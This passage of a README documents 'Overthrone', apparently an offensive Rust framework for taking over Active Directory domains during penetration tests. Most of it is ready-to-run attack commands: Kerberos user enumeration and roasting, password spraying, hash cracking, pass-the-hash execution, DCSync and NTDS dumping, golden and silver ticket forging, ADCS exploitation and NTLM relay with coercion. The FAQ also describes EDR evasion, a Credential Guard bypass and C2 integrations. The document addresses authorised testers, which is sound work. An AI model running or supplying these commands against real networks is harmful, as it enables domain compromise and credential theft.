| **WizardSession::new_with_state()** | ✅ Constructs WizardSession from pre-populated EngagementState. Enables skip-Enumerate resume flow. |

### Reporting (overthrone-scribe)

The difference between a penetration test and a crime is paperwork. This crate does the paperwork.

| Format | Status | Notes |
|---|---|---|
| **Markdown** | ✅ Works | Technical report with findings, attack paths, and mitigations. For the team that has to fix things. |
| **JSON** | ✅ Works | Machine-readable for integration with SIEMs, ticketing systems, or your "how screwed are we" dashboard. |
| **PDF** | ✅ Works | Executive summary for people who think "Domain Admin" is a job title. Custom PDF renderer. |

Every report includes: findings with severity, full attack paths with hop-by-hop details, affected assets, MITRE ATT&CK mappings, remediation steps, mitigation recommendations, and attack narrative prose. Because "GenericAll on the Domain Object via nested group membership through a misconfigured ACE" means nothing to a CISO. "Anyone in marketing can become Domain Admin in 3 steps" does.

## Edge Types & Cost Model

The attack graph uses weighted edges. Lower cost = easier to exploit. The pathfinder minimizes total cost - finding the path of least resistance. Just like a real attacker. Just like electricity. Just like that one coworker who always finds the shortcut.

| Edge Type | Cost | Meaning |
|---|---|---|
| `MemberOf` | 0 | Group membership - free traversal, you already have it |
| `HasSidHistory` | 0 | SID History - legacy identity, free impersonation |
| `Contains` | 0 | OU/GPO containment - structural relationship |
| `AdminTo` | 1 | Local admin - direct compromise |
| `DcSync` | 1 | Replication rights - game over |
| `GenericAll` | 1 | Full control - you are God (of this specific object) |
| `ForceChangePassword` | 1 | Reset their password - aggressive but effective |
| `Owns` | 1 | Object owner - can grant yourself anything |
| `WriteDacl` | 1 | Modify permissions - give yourself GenericAll |
| `WriteOwner` | 1 | Change owner - give yourself Owns |
| `AllowedToDelegate` | 1 | Constrained delegation - impersonate to target service |
| `AllowedToAct` | 1 | RBCD - sneakier delegation abuse |
| `HasSession` | 2 | Active session - credential theft opportunity |
| `GenericWrite` | 2 | Write attributes - targeted property abuse |
| `AddMembers` | 2 | Add to group - escalate via group membership |
| `AllExtendedRights` | 1 | Full control via extended rights |
| `CreateChild` | 2 | Create child objects - privilege escalation |
| `WriteSelf` | 2 | Add self to group / modify self |
| `WriteSPN` | 3 | Write SPN - set up for kerberoasting |
| `WriteKeyCredentialLink` | 2 | Shadow Credentials write |
| `AddKeyCredentialLink` | 2 | Add key credential - Shadow Credentials |
| `WriteAllowedToDelegateTo` | 2 | RBCD write |
| `AddAllowedToAct` | 2 | Add RBCD permission |
| `WriteAccountRestrictions` | 3 | Modify account delegation restrictions |
| `Enroll` | 3 | Enroll in certificate template |
| `EnrollOnBehalfOf` | 3 | Enrollment agent - ESC3 |
| `ManageCA` | 1 | Manage Certificate Authority |
| `ManageCertificates` | 2 | Manage issued certificates |
| `ManageCertTemplate` | 1 | Manage certificate templates |
| `ReadLapsPassword` | 2 | Read LAPS - plaintext local admin password |
| `ReadGmsaPassword` | 2 | Read gMSA - service account password blob |
| `ReadLapsPasswordExpiry` | 2 | Read LAPS password expiry metadata |
| `CanRDP` | 3 | RDP access - interactive logon |
| `CanPSRemote` | 3 | PS Remoting - command execution |
| `ExecuteDCOM` | 3 | DCOM execution - Excel goes brrr |
| `SQLAdmin` | 3 | SQL Server admin - `xp_cmdshell` is a "feature" |
| `TrustedBy` | 4 | Domain trust - cross-domain, requires more setup |
| `HasSpn` | 5 | Kerberoastable - offline cracking required |
| `DontReqPreauth` | 5 | AS-REP roastable - offline cracking required |
| `Custom(*)` | 10 | Unknown/custom - high cost, manual analysis needed |

## Protocol Stack

What Overthrone speaks fluently. All implemented in pure Rust:

| Protocol | Used for |
|---|---|
| **LDAP/LDAPS** | Domain enumeration, user/group/GPO/trust queries, ACL reading. AD's diary. |
| **Kerberos** | Authentication, TGT/TGS requests, ticket forging, roasting, PKINIT. The three-headed dog of authentication. |
| **SMB 2/3** | File operations, share enumeration, lateral movement, PtH. The universal remote of Windows networking. |
| **NTLM** | NT hash computation, NTLMv2 challenge-response, Pass-the-Hash. The protocol that refuses to die. |
| **MS-DRSR** | DCSync - replicating credentials via DRS RPC. Politely asking the DC for all credentials. |
| **MS-SAMR/RID** | SAM Remote - RID cycling, SID brute-force enumeration |
| **MSSQL/TDS** | Full TDS protocol client, auth, query execution, linked server crawling |
| **Remote Registry** | Remote registry manipulation via DCE/RPC |
| **DNS** | SRV record lookups for DC discovery via hickory-resolver |
| **PKINIT** | Certificate-based Kerberos pre-auth with RSA signing and DH key exchange |

Everything is implemented in Rust. No shelling out to `impacket`, no calling `mimikatz.exe`, no loading .NET assemblies, no Wine, no prayers to the Python dependency gods. Pure Rust protocol implementations talking raw bytes over the wire.

## Installation

### One-line install (Linux/macOS)

```bash
curl -fsSL https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.sh | bash
```

Auto-detects your platform, grabs the right binary, installs both `overthrone` and `ovt` to your PATH. Easier than misconfiguring a GPO.

### One-line install (Windows PowerShell)

```powershell
irm https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.ps1 | iex
```

Same thing, but for people who attack Active Directory from inside Active Directory. We respect the audacity.

### Download a binary

Grab the latest from [**Releases**](https://github.com/Karmanya03/Overthrone/releases):

| Platform | Binary | Architecture |
|---|---|---|
| **Windows** | [`overthrone-windows-x86_64.exe`](https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-windows-x86_64.exe) | x86_64 |
| **Linux** | [`overthrone-linux-x86_64`](https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-linux-x86_64) | x86_64 (musl, static) |
| **macOS** | [`overthrone-macos-aarch64`](https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-macos-aarch64) | Apple Silicon (M1/M2/M3/M4) |

**Quick manual install:**

```bash
# Linux x86_64
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-linux-x86_64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/

# macOS Apple Silicon
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-macos-aarch64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/

# Kali (you're probably already here)
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.2.1-beta/overthrone-linux-x86_64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/ && sudo apt install -y smbclient
```

### Build from source

For the trust-no-one crowd (respect - you're pentesters, paranoia is a job requirement):

```bash
git clone https://github.com/Karmanya03/Overthrone.git
cd Overthrone
cargo build --release

# Binaries at:
#   target/release/overthrone
#   target/release/ovt
# Same binary, two names. Like Clark Kent and Superman but less handsome.
```

### Post-install: smbclient

Overthrone is pure Rust with one external dependency. One. We tried to make it zero but `smb-rs` v0.11 doesn't expose directory listing yet. We're not bitter about it. (We're a little bitter about it.)

```bash
# Debian/Ubuntu/Kali
sudo apt install smbclient

# Arch (btw)
sudo pacman -S samba

# Fedora/RHEL
sudo dnf install samba-client

# macOS
brew install samba

# Windows
# Already there. Windows ships with SMB. It's the one time Windows having
# everything pre-installed actually works in your favor.
```

### Platform Support

| Platform | Status | Notes |
|---|---|---|
| **Kali Linux** | Recommended | Everything pre-installed. `smbclient` already there. This is the way. |
| **Linux** | Full support | Primary dev platform. All features. `apt install smbclient` and go. |
| **Windows** | Full support | Yes, you can attack AD from a Windows box. The irony writes itself. |
| **macOS** | Full support | Kerberos and LDAP work natively. `brew install samba` for SMB. Tim Cook would not approve. |
| **WSL** | Full support | Best of both worlds - Windows target, Linux attacker, one machine. |

---

## Wordlists

Overthrone does **not** bundle large wordlists - bring your own. A small embedded fallback username list is included for Kerberos user-enum/AS-REP roasting when no list is supplied or the default list is missing. `--userlist` inputs and cracking `--wordlist` inputs accept any path on your system, and `--use-ldap` can pull candidate usernames from anonymous LDAP enumeration first.

### Recommended: SecLists

```bash
# Kali (already installed)
ls /usr/share/seclists/

# Install on any Debian/Ubuntu system
sudo apt install seclists

# Or clone directly
git clone --depth=1 https://github.com/danielmiessler/SecLists.git ~/seclists
```

### Username Lists

```bash
# Zero-knowledge user enumeration - massive list, slow but thorough
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# Faster: statistically likely first.last / f.last / flast formats
/usr/share/seclists/Usernames/Names/names.txt
/usr/share/seclists/Usernames/statistically-likely-usernames/john.smith.txt
/usr/share/seclists/Usernames/statistically-likely-usernames/jsmith.txt

# AD service account patterns
/usr/share/seclists/Usernames/Names/names.txt

# No list? Kerberos user-enum and auto-pwn-preauth can fall back to a small embedded candidate set.
```

### Password Lists

```bash
# Top 1000 - use for spraying (fast, stays under lockout threshold)
/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt

# Seasonal passwords - highest hit rate in enterprise AD
/usr/share/seclists/Passwords/Seasonal/

# RockYou - offline cracking of captured hashes
/usr/share/wordlists/rockyou.txt

# Leaked AD passwords (actual corporate breach data)
/usr/share/seclists/Passwords/Leaked-Databases/
```

### Zero-Knowledge Kill Chain Example

```bash
# 1. Enumerate valid usernames - no credentials needed
ovt kerberos user-enum -H 192.168.57.11 -d north.sevenkingdoms.local \
  --userlist /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  --output ./loot/valid_users.txt \
  --delay 100 --concurrency 20

# LDAP-backed discovery when you do not want to ship a list
ovt kerberos user-enum -H 192.168.57.11 -d north.sevenkingdoms.local \
  --use-ldap --concurrency 20

# 2. AS-REP roast the valid list (any no-preauth accounts get auto-captured during step 1)
ovt kerberos asrep-roast -H 192.168.57.11 -d north.sevenkingdoms.local \
  -U ./loot/valid_users.txt

# 3. Crack captured hashes
ovt crack --file ./loot/asrep_hashes.txt --wordlist /usr/share/wordlists/rockyou.txt

# 4. Spray valid users with most likely AD passwords
while IFS= read -r pw; do
  ovt spray -H 192.168.57.11 -d north.sevenkingdoms.local \
    --userlist ./loot/valid_users.txt \
    --password "$pw" \
    --delay 1000 --jitter 500 --concurrency 10
done < /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
```

---

## Usage

### Quick Start - Auto-Pwn

For when you want to go from "I have creds" to "I own the domain" in one command:

```bash
# Full form - let the AI handle it
overthrone auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Shorthand - for every occasion
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Stealth mode - when the SOC is awake
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' --stealth --jitter-ms 3000

# Load engagement params from a TOML config file
ovt auto-pwn --config ./corp-local.toml

# Resume a previous session (VPN dropped? no problem)
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' \
  --resume ~/.overthrone/sessions/corp.local-10.10.10.1.json

# Recon only - enumerate everything, touch nothing
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' --max-stage enumerate

# Q-Learning AI with persistent brain (gets smarter every run)
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' \
  --adaptive hybrid --q-table ./engagement_brain.json

# Run a canned playbook instead of goal-driven AI
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' \
  --playbook full-auto-pwn

# Dry run - plan the attack without pulling the trigger
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!' --dry-run

# No-credential bootstrap with LDAP source selection and concurrency
ovt auto-pwn-preauth -H 10.10.10.1 -d corp.local --use-ldap --concurrency 20
```

That's it. Overthrone enumerates users, computers, groups, trusts, GPOs, password policy, badPwdCount/badPwdTime/lockoutTime telemetry, delegation/RBCD, readable LAPS, and shares - builds the attack graph - finds the shortest path to DA - Kerberoasts, sprays, cracks hashes - escalates, moves laterally, DCSyncs, and generates a report. Kerberos user-enum supports file-backed, LDAP-backed, and embedded-fallback source selection, and spray now runs with bounded concurrency while still honoring lockout policy. The Q-Learning engine (compiled by default in hybrid mode) remembers what worked and optimizes future runs. In stealth mode it starts with low-volume LDAP baseline and delegation probes before heavier enumeration. This time you can actually watch it work: every step announces itself with stage, noise level, and priority, then shows the result with credential/host gains. The Q-learner prints its state encoding, action decision, and reward after each step. Auto-pwn and Wizard also write a single phase-wise Markdown trail under `loot/trails/overthrone_<domain>_<dc>_runNNN.md`; repeated runs detect prior trails and never overwrite. The final report is a full breakdown - kill-chain completion visual, per-stage success/fail stats, credential table, admin host list, loot summary, Q-learner session stats, and audit trail. Go get coffee if you want, but you might actually enjoy watching this one.

### Manual Mode

```bash
# Step 1: Enumerate everything
ovt enum pre -H 10.10.10.1
ovt enum anonymous -H 10.10.10.1
ovt enum null-session -H 10.10.10.1
ovt enum all -H 10.10.10.1 -d corp.local -u jsmith -p 'Summer2026!'

# Step 2: Build and query the attack graph
ovt graph build -H 10.10.10.1 -d corp.local -u jsmith -p 'Summer2026!'
ovt graph path-to-da --from jsmith                      # all paths to DA
ovt graph path --from jsmith --to "Domain Admins"         # shortest path
ovt graph stats                                           # node/edge counts
ovt graph export --output graph.json                     # save it
ovt graph export --output bloodhound.json --bloodhound   # BloodHound format
ovt graph view --file graph.json                         # local Rust visualizer
ovt graph tree --file graph.json                         # local Rust tree explorer
ovt graph view -i ./bloodhound-json/                     # import BloodHound JSON directory
ovt graph tree -i ./bloodhound-json/                     # GUI-style hierarchy
ovt graph view -i users.json -i groups.json -i computers.json
ovt graph gui -i ./bloodhound-json/                      # browser GUI; blank-first search/chunk render

# Graph GUI indexes directories without rendering every JSON at once.
# It renders only searched nodes, paths, or explicit chunks.
# Graph view keeps full names readable in panels while controlling canvas density.
# Tree view expands domain -> type -> object -> relationships.
# Both are local Rust TUIs with search, filters, details, path hints, mouse support,
# ? help, and q quit. No Neo4j, no browser, no JVM.

# Step 3 (zero-knowledge): Enumerate valid usernames - no creds needed
# Uses Kerberos error codes to determine if each username exists.
# Omit --userlist to use the embedded candidate set.
ovt kerberos user-enum -H 10.10.10.1 -d corp.local \
  --output ./loot/valid_users.txt --concurrency 20

# Also works with any other list and optional delay/jitter
ovt kerberos user-enum -H 10.10.10.1 -d corp.local \
  --userlist /usr/share/seclists/Usernames/Names/names.txt \
  --delay 100 --concurrency 10

# Step 4: Kerberoast + AS-REP against discovered users
ovt kerberos roast -H 10.10.10.1 -d corp.local -u jsmith -p 'Summer2026!'
ovt kerberos asrep-roast -H 10.10.10.1 -d corp.local -U ./loot/valid_users.txt -p 'Summer2026!'
ovt crack --file ./loot/kerberoast_hashes.txt --mode thorough

# Note: any no-preauth accounts found during user-enum automatically save
# their AS-REP hashes to ./loot/userenum_asrep_hashes.txt - free hashes.

# Step 5: Spray (respect the lockout policy)
ovt spray -H 10.10.10.1 -d corp.local --password 'Winter2026!' --userlist ./loot/valid_users.txt

# Step 5: Lateral movement
ovt exec --target 10.10.10.50 --command "whoami /all" -d corp.local -u admin -p 'Pass!'
ovt exec --target 10.10.10.50 --command "whoami /all" -d corp.local -u admin --nt-hash aad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
ovt exec --target 10.10.10.50 --command "whoami /all" --method smbexec

# Step 6: Built-in modules (CME/netexec-style)
ovt module list                                           # list all available modules
ovt module list --category dump                           # filter by category
ovt module info sam-dump                                  # show module details + params
ovt module run procdump -t 10.10.10.50                    # run against a target
ovt module run-parallel sam-dump -t 10.10.10.50,10.10.10.51 --concurrency 5  # parallel

# Step 7: Persist
ovt dump --target 10.10.10.1 ntds -d corp.local -u dadmin -p 'G0tcha!'
ovt forge golden --domain-sid S-1-5-21-... --krbtgt-hash <32hex> --output golden.kirbi
ovt forge silver --domain-sid S-1-5-21-... --service-hash <32hex> --spn cifs/dc01.corp.local --output silver.kirbi

# Step 7: Report
ovt report --format markdown --output engagement-report.md
ovt report --format json --output findings.json
ovt report --format pdf --output executive-summary.pdf
```

### Command Reference

See **[COMMAND-LIST.md](COMMAND-LIST.md)** for the complete reference with flags, examples, and cheat sheets.

## Examples

### Scenario 1: "I just got a foothold"

```bash
# 1. Enumerate
ovt enum all -H 10.10.10.1 -d corp.local -u jsmith -p 'Phished123!'

# 2. Build graph + find paths
ovt graph build -H 10.10.10.1 -d corp.local -u jsmith -p 'Phished123!'
ovt graph path-to-da --from jsmith
# 3 hops. The CISO will need to sit down.

# 3. Kerberoast the SPN account in the path
ovt kerberos roast -H 10.10.10.1 -d corp.local -u jsmith -p 'Phished123!'
# Hashes saved to ./loot/kerberoast_hashes.txt
ovt crack --file ./loot/kerberoast_hashes.txt --mode thorough
# Got: SVC-BACKUP:Backup2019!

# 4. Pass-the-Hash to DC (or use the password if you cracked it)
ovt exec --target dc01.corp.local --command "whoami /all" -d corp.local -u SVC-BACKUP -p 'Backup2019!'
ovt exec --target dc01.corp.local --command "whoami /all" -d corp.local -u SVC-BACKUP --nt-hash <nthash>

# 5. DCSync - get all the hashes
ovt dump --target 10.10.10.1 ntds -d corp.local -u SVC-BACKUP -p 'Backup2019!'

# 6. Report
ovt report --format markdown --output corp-local-report.md
```

### Scenario 2: "Full auto-pwn, I have a meeting in an hour"

```bash
ovt auto-pwn -H 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
# Go get coffee. Come back to: engagement-report.md
```

### Scenario 3: "ADCS is everywhere and I have a config file"

```bash
# Save your engagement config once
ovt config set dc-host dc01.corp.local
ovt config set domain corp.local
ovt config set username jsmith
ovt config set password 'Summer2026!'

# Or create a named profile for this client
ovt config profile create mega-corp
ovt config profile set mega-corp dc-host dc01.corp.local
ovt config profile set mega-corp domain corp.local
ovt config profile use mega-corp

# Now every command picks up the settings automatically
ovt auto-pwn
ovt adcs enum                                 # Use saved config
ovt forge adcs --ca-server CA01.corp.local    # Auto-exploit ESC1-9
ovt shell                                     # Interactive REPL with creds pre-loaded
```

### Scenario 4: "Crawl with caution and capture creds"

```bash
# Crawl with source-port rotation + JA3 fingerprint randomization + OPLOCK
ovt move -H dc01.corp.local -d corp.local -u jsmith -p 'Summer2026!' \
  --port-rotate --tls-fingerprint --oplock

# Crawl AND respond/poison at the same time
ovt move -H dc01.corp.local -d corp.local -u jsmith -p 'Summer2026!' \
  --respond --poison-ip 10.0.0.50

# Session management - list, inspect, clean
ovt session list
ovt session show corp.local-10.0.0.1
ovt session clean --older-than 30d
```

### Scenario 5: "NTLM relay with all the bells and whistles"

```bash
# HTTP target captured replayed to SMB with TLS verification
ovt ntlm http-asymmetric -t http://exchange01.corp.local:80 -p 8080

# Classic SMB->LDAP relay with auto-trigger coercion
ovt ntlm smb-relay -l 0.0.0.0:445 -t ldap://dc01.corp.local \
  --auto-coerce-domain corp.local --auto-coerce-user jsmith \
  --auto-coerce-password 'Summer2026!'

# Relay with TLS verification (legitimate audit mode)
ovt ntlm relay -l 0.0.0.0:8080 -t smb://dc01.corp.local --tls-verify

# Relay through SOCKS5 proxy
ovt ntlm relay -l 0.0.0.0:8080 -t smb://dc01.corp.local --socks5-proxy 127.0.0.1:9050
```

## FAQ

**Q: Is this legal?**
A: With explicit written authorization - absolutely. Without it - absolutely not. The difference between a pentester and a criminal is a signed document and a really good PowerPoint presentation.

**Q: How is this different from BloodHound?**
A: BloodHound shows you the path. Overthrone now shows it locally too: `ovt graph view` imports BloodHound/Overthrone JSON and gives you a Rust-native interactive graph with no Neo4j. Then Overthrone can walk the path, exploit it, clean up, and generate the PDF.

**Q: How is this different from Impacket?**
A: Impacket is a legendary Python protocol library. Overthrone reimplements the same protocols in Rust with a unified framework, autonomous planning, and integrated reporting. Impacket is the toolbox. Overthrone is the factory. Also, no `pip install` failures at 2 AM.

**Q: Why Rust?**
A: Memory safety. Single static binary. Native performance. No dependency hell. No Wine. No .NET. Also, explaining Rust lifetime errors to a rubber duck at 4 AM builds character.

**Q: Will this get caught by AV/EDR?**
A: Overthrone uses native protocol implementations that look identical to legitimate Windows traffic. It doesn't inject into processes, doesn't use PowerShell, doesn't drop assemblies. The built-in EDR evasion module (`edr_bypass.rs`) adds next-gen stealth: ntdll unhooking from a clean disk copy, ETW provider callback abolition, syscall number resolution from fresh ntdll, and sleep masking with memory obfuscation. The Credential Guard bypass module (`lsaiso.rs`) uses raw syscalls (core::arch::asm!) to bypass userland hooks entirely, with a 3-tier fallback (ALPC -> process-memory -> WDigest). That said, if you DCSync from a Linux box at 3 AM, any decent SOC will notice.

**Q: Does it need Wine or Mimikatz or .NET?**
A: No. No. And no. Every protocol is native Rust. The Credential Guard bypass and EDR evasion are also native. No DLL proxying. No Python wrappers. No Wine. If you find yourself installing Wine to run Overthrone, something has gone terribly wrong.

**Q: Can I extend it with custom modules?**
A: Native DLL plugin loading works with a full Plugin trait. WASM plugins load and execute via wasmtime with state persistence, manifest parsing, and smart memory allocation. The workspace architecture makes adding new modules straightforward. PRs welcome.

**Q: What about the C2 integrations?**
A: They work now. Sliver (mTLS REST), Havoc (REST with auth), Cobalt Strike (Aggressor-style REST). Real HTTP clients, real API calls, real session management. The "aspirational code" era is over.

**Q: I have 14 flags to repeat every run. Help?**
A: Use `ovt config` for persistent settings (TOML, XDG-aware). `ovt config set dc-host 10.0.0.1` and never type it again. Or create named profiles with `ovt config profile create cobalt-op` and activate with `ovt config profile use cobalt-op`. Also supports `OT_CONFIG` and `OT_PROFILE` env vars. Your fingers will thank you.

**Q: Can I resume a crashed engagement?**
A: `ovt session list` shows all saved sessions. `ovt auto-pwn --from-session <name>` picks up where you left off - skips enumeration if the state already has users/computers/groups, goes straight to attack. Also `--resume <file>` for the traditional approach. Overthrone saves state after every phase. VPN drops, reboots, coffee breaks - none of them stop the show.

**Q: What's the deal with the interactive shell?**
A: `ovt shell` drops you into a full REPL with rustyline - tab completion, command history, context-aware prompts, syntax highlighting. Has forge modules (golden/silver/diamond/skeleton) with `use`/`set`/`run`. Also supports WinRM, SMB, and WMI shell types for remote command execution. Think of it as a poor man's Metasploit console, but in Rust and without the warmongering aesthetic.

## Contributing

PRs welcome. Issues welcome. Memes about Active Directory misconfigurations are especially welcome. If your PR includes a pun in the commit message, it gets reviewed first.

## Star History

If you've read this far - all the way to the bottom of this README, past the crate report card, past the backlog table - you're legally obligated to star the repo. It's in the MIT license. (It's not in the MIT license. But it should be.)

**[Star this repo](https://github.com/Karmanya03/Overthrone)** - every star adds 0.001 damage to the attack graph.

## Disclaimer

This tool is for **authorized security testing only**. Using Overthrone against systems without explicit written permission is illegal, unethical, and will make your parents disappointed. The authors are not responsible for misuse.

Always:
- Get written authorization before testing
- Define scope and rules of engagement
- Don't break things you weren't asked to break
- Report everything you find, especially the embarrassing stuff
- Remember that somewhere, a sysadmin set `Password1` on a service account and hoped nobody would notice

## License

MIT - use it, modify it, learn from it, build on it. Just don't be evil with it.

***

<p align="center">
  <sub>Built with mass amounts of mass-produced instant coffee, mass amounts of Rust, and a personal grudge against misconfigured ACLs.</sub><br/>
  <sub>10 crates. ~204,000 lines of Rust. 1,618 tests. Zero Python. One smbclient dependency. Minimal regrets. (Some regrets.)</sub><br/>
  <sub>Every throne falls. The question is whether you find out from a pentester or from a ransomware note.</sub><br/>
  <sub>We prefer the first option. Your insurance company does too.</sub>
</p>
